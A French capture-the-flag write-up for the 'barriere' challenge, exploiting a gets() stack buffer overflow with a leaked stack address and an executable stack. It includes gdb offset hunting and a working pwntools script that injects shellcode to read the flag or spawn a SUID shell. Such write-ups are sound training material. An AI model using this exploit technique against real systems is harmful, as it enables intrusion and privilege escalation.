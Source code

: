 # Barriere

![barriere](barriere.png)

## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- Le serveur nous donne ce qui semble être un accès SSH
- On y trouve un programme nommé `barriere`
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme quitte

```bash
$ ssh opennc@challs.hackagou.nc 5001
$ ./barriere
Show me your style!
Je bloque à 0x7ffedf64b8b0
AAAAAA
```

### Analyse statique

Le challenge nous permet de télécharger le binaire à exploiter sur le serveur.

En regardant rapidement le code, on trouve la fonction main qui correspond au code suivant :

```c
int main(void)

{
  char user_input [64];

  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_004006f8);
  printf("Je bloque à %p\n",user_input);
  gets(user_input);
  return 0;
}
```

On remarque que l'adresse leakée est celle de notre input (sur la stack).
Par ailleurs, il n'y a pas de contrôle sur la taille de l'input qui va être stocké dans un buffer de 64 octets

Niveau protection, rien de particulier, la stack permet l'exécution de code et aucun canary n'y est placé :

```bash
$ checksec fragile
[*] '/home/opennc/barriere'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Il reste à supposer que l'ASLR est activée sur le serveur, ce qui est confirmé en relançant deux fois le challenge, l'adresse du leak change.


### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow et donc suivre les instructions habituelles de ce type de vulnérabilité :
- Remplir le buffer
- Ecraser la sauvegarde de RIP sur la stack (avec une adresse pointant sur notre shellcode)
- Poser un shellcode sur la stack

Nous trouvons facilement l'offset du RIP via peda (création d'une chaîne de 256 caractères et utilisation lors de l'input du programme)

```
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ run
Starting program: /home/opennc/barriere 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Show me your style!
Je bloque à 0x7ffea3db4e40
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.


[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7f0fbd8ddaa0 --> 0xfbad2288 
RDX: 0x1 
RSI: 0x1 
RDI: 0x7f0fbd8dfa80 --> 0x0 
RBP: 0x4141334141644141 ('AAdAA3AA')
RSP: 0x7ffea3db4e88 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
RIP: 0x4005ba (<main+67>:	ret)
R8 : 0x0 
R9 : 0x0 
R10: 0x77 ('w')
R11: 0x246 
R12: 0x7ffea3db4f98 --> 0x7ffea3db5829 ("/home/opennc/barriere")
R13: 0x400577 (<main>:	push   rbp)
R14: 0x0 
R15: 0x7f0fbd92c040 --> 0x7f0fbd92d2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero[ sign trap INTERRUPT direction overflow)
[..]]
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004005ba in main ()
```

On cherche quelle instruction a pu pousser le programme à l'erreur de segmentation.

<pre><code>gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffdc48:
 rip = 0x4005ba in main; <b><ins>saved rip = 0x4134414165414149</ins></b>
 called by frame at 0x7fffffffdc58
 Arglist at 0x4141334141644141, args: 
 Locals at 0x4141334141644141, Previous frame's sp is 0x7fffffffdc50
 Saved registers:
  rip at 0x7fffffffdc48</code></pre>

RIP pointait sur 0x4134414165414149 qui correspond à IAAeAA4A en little-endian. Utilisation de *pattern_offset* afin de trouver l'offset de cette chaîne qui nous servira à écraser RIP.

```
gdb-peda$ pattern_offset IAAeAA4A
IAAeAA4A found at offset: 72
```

Nous devons donc réécrire l'adresse fournie par le programme jusqu'au 72ème octet, écrire l'adresse de notre shellcode (adresse reçue du programme + 72 + 8) et placer notre shellcode.

Ce qui donne, en utilisant pwntools et un simple shellcode 'cat flag.txt' :

```python
from pwn import *

context.clear(arch='amd64')
s = ssh(host='challs.hackagou.nc', port=5001, user='opennc', password='opennc')

p = s.process('./barriere')

resp = p.recvuntil(b'0\n')
buff_add = resp.split(b'\n')[1].split(b' ')[3]
log.success("Leak : " + buff_add.decode())

shell_addr = int(buff_add.decode(), 16) + 72 + 8
log.success("shell_addr : " + hex(shell_addr))

payload = b"\x90" * 72
payload += p64(shell_addr)
payload += asm(shellcraft.cat('flag.txt'))

p.sendline(payload)
print(p.recvline().decode())
```

```bash
$ python3 pwn-barriere.py
[+] Connecting to challs.hackagou.nc on port 5001: Done
[*] opennc@challs.hackagou.nc:
    Distro    Ubuntu 22.04
    OS:       linux
    Arch:     amd64
    Version:  5.15.0
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./barriere') on 127.0.0.1: pid 81
[+] Leak : 0x7ffd90f9c7e0
[+] shell_addr : 0x7ffd90f9c840
OPENNC{BufF3R_0v3r_t3h_F10w}
```

Pour ceux qui souhaitaient utiliser un bash ou un sh, il est nécessaire de faire un setreuid() avant l'appel du shell afin de récupérer les droits du SUID.

```
# Autre possibilité via un shell
payload += asm(shellcraft.setreuid() + shellcraft.sh())
p.sendline(payload)
p.interactive()
```
